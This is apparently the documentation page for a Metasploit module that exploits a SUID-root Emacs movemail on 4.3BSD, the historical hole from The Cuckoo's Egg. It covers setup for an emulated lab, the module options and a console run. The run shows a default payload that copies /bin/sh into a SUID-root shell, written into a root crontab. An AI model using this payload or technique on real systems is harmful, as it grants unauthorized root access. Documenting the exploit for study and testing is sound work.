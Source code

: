 ## Vulnerable Application

### Description

This module exploits a SUID installation of the Emacs `movemail` utility
to run a command as root by writing to 4.3BSD's `/usr/lib/crontab.local`.

The vulnerability is documented in Cliff Stoll's book *The Cuckoo's Egg*.

### Setup

A Docker environment for 4.3BSD on VAX is available at
<https://github.com/wvu/ye-olde-bsd>.

For manual setup, please follow the Computer History Wiki's
[guide](http://gunkies.org/wiki/Installing_4.3_BSD_on_SIMH) or Allen
Garvin's [guide](http://plover.net/~agarvin/4.3bsd-on-simh.html) if
you're using [Quasijarus](http://gunkies.org/wiki/4.3_BSD_Quasijarus).

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Targets

### 0

This uses `/usr/lib/crontab.local` to execute code.

## Options

### MOVEMAIL

Set this to the absolute path to the SUID-root `movemail` executable.

### CMD

If your payload is `cmd/unix/generic` (suggested default), set this to
the command you want to run as root. The provided default will create a
SUID-root shell at `/tmp/sh`.

## Scenarios

### 4.3BSD

```
msf > use exploit/unix/local/emacs_movemail
msf exploit(unix/local/emacs_movemail) > options

Module options (exploit/unix/local/emacs_movemail):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   MOVEMAIL  /etc/movemail    yes       Path to movemail
   SESSION                    yes       The session to run this module on.


Payload options (cmd/unix/generic):

   Name  Current Setting                       Required  Description
   ----  ---------------                       --------  -----------
   CMD   cp /bin/sh /tmp && chmod u+s /tmp/sh  yes       The command string to execute


Exploit target:

   Id  Name
   --  ----
   0   /usr/lib/crontab.local


msf exploit(unix/local/emacs_movemail) > set session -1
session => -1
msf exploit(unix/local/emacs_movemail) > run

[*] Setting a sane $PATH: /bin:/usr/bin:/usr/ucb:/etc
[-] Current shell is unknown
[*] $PATH is /bin:/usr/bin:/usr/ucb:/etc
[+] SUID-root /etc/movemail found
[*] Preparing crontab with payload
* * * * * root cp /bin/sh /tmp && chmod u+s /tmp/sh
* * * * * root rm -f /usr/lib/crontab.local
[*] Creating writable /usr/lib/crontab.local
[+] Writing crontab to /usr/lib/crontab.local
[!] Please wait at least one minute for effect
[*] Exploit completed, but no session was created.
msf exploit(unix/local/emacs_movemail) >
```
